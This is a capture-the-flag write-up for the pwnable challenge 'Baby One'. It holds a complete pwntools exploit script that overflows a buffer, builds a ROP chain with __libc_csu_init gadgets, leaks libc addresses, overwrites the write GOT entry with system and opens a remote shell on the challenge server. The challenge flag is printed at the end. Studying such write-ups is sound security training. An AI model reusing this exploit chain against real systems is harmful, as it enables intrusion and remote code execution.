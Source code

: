 # **Baby One**

#### tag : pwnable, rop, libc-database

-----------------------------------------------

#### Description

>Can you prove you are not a baby anymore ?
>
>service is running at : nc 51.254.114.246 1111
>
>Author : Anis_Boss

-----------------------------------------------

#### Solution

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

r = remote('51.254.114.246', 1111)

main = 0x4005f6
write_plt = 0x4004b0
write_got = 0x601018
read_plt = 0x4004c0
read_got = 0x601020
bss = 0x601051

# libc_csu_init gadget
def gg(rdx, rsi, edi, f):
	p = flat(
		0x4006bb, 	# _libc_csu_init
		0x1,		# rbp
		f,			# r12
		rdx,		# r13
		rsi,		# r14
		edi,		# r15
		0x4006a0	# _libc_csu_init
	)
	p += p64(0x0) * 7
	return p

# stage 0 : # leak server-side libc function address
'''
r.recvuntil('\n')
r.send('a' * 0x38 + gg(8, write_got, 1, write_got) + gg(8, read_got, 1, write_got))

libc_write = u64(r.recv(8))
libc_read = u64(r.recv(8))
log.info('leak libc_write : 0x%x' % libc_write)
log.info('leak libc_read : 0x%x' % libc_read)
'''
# server-side response
# [*] leak libc_write : 0x7fac12ddb2b0
# [*] leak libc_read : 0x7fac12ddb250

# server-side libc version
'''
$ ./find write 2b0 read 250
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
$ ./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
  -> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
'''

# server-side libc function offset
libc_write_offset = 0xf72b0
libc_system_offset = 0x45390

# stage 1 : leak libc address and wrtie "/bin/sh" to bss
r.recvuntil('\n')
r.send('a' * 0x38 + gg(8, write_got, 1, write_got) + gg(8, bss, 0, read_got) + p64(main))
libc_base = u64(r.recv(8)) - libc_write_offset
libc_system = libc_base + libc_system_offset
r.send('/bin/sh\x00')

log.info('leak libc_base : 0x%x' % libc_base)
log.info('leak libc_system : 0x%x' % libc_system)

# stage 2 : wrtie write_got to sytsem and call
r.recvuntil('\n')
r.send('a' * 0x38 + gg(8, write_got, 0, read_got) + gg(0, 0, bss, write_got))
r.send(p64(libc_system))
r.interactive()
```
**securinets{controlling_rdx_for_the_win}**

